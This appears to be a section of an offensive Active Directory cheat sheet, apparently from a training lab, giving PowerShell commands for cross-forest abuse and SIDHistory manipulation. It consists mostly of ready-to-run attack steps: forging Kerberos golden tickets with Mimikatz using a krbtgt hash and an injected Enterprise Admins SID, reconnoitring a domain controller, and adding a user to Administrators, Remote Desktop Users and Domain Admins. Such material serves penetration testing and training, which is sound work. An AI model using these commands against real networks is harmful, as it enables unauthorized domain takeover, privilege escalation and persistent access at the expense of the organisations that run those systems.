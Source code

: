 ### Cross-Forest Abuse Example
```powershell
# Use forged inter-forest TGT and operate across forest
Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46ad8bd66c6efd77603da26796f35 /ptt"'

# Basic reconnaissance/actions in remote forest
gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local
net localgroup administrators
net localgroup Administrators student21 /add
net localgroup "Remote Desktop Users" student21 /add
net group "DOMAIN ADMINS" student21 /domain /add

# Check First Degree Object Controls
net group "SQLMANAGERS" examAd /domain /add
```

### Enhanced SIDHistory Manipulation Workflows

#### **SIDHistory Enumeration and Analysis**
```powershell
# Enumerate SIDHistory attributes across forests
Get-DomainObject -Properties sidhistory | Where-Object {$_.sidhistory -ne $null}

# Find objects with specific SIDHistory values
Get-DomainObject -Properties sidhistory | Where-Object {$_.sidhistory -like "*S-1-5-21-*"}

# Cross-forest SID mapping
$foreignSIDs = Get-DomainObject -Properties sidhistory | Where-Object {$_.sidhistory -ne $null}
foreach ($obj in $foreignSIDs) {
    Write-Host "Object: $($obj.samaccountname)"
    Write-Host "  SIDHistory: $($obj.sidhistory)"
    Write-Host "  Domain: $($obj.domain)"
}
```

#### **SIDHistory-Based Privilege Escalation**
```powershell
# Create Golden Ticket with SIDHistory for cross-forest access
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:source.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /sids:S-1-5-21-0987654321-0987654321-0987654321-519 /krbtgt:KRBTGT_HASH /ptt"'

# Use SIDHistory for cross-forest group membership
# The SIDHistory S-1-5-21-0987654321-0987654321-0987654321-519 represents Enterprise Admins in target forest

# Verify SIDHistory in current session
klist /sids
```
